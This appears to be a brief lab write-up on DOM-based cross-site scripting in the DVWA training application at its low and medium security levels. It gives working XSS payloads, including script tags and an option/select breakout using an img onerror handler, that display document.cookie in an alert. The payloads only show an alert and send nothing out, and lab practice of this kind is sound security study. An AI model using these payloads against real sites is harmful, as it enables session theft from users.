 ```yaml
---
category: Uncategorized
tags: []
---
```

LOW

POC:
```
http://dvwa.local/vulnerabilities/xss_d/?default=<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

Now grab cookie:
```
<script>alert(document.cookie)</script>
```

MEDIUM
Here we need to escape out of the `option` and `select` tags:

POC:
```
/option></select><img src='x' onerror='alert(1)'>
```

Now grab cookie:
```
/option></select><img src='x' onerror='alert(document.cookie)'>
```


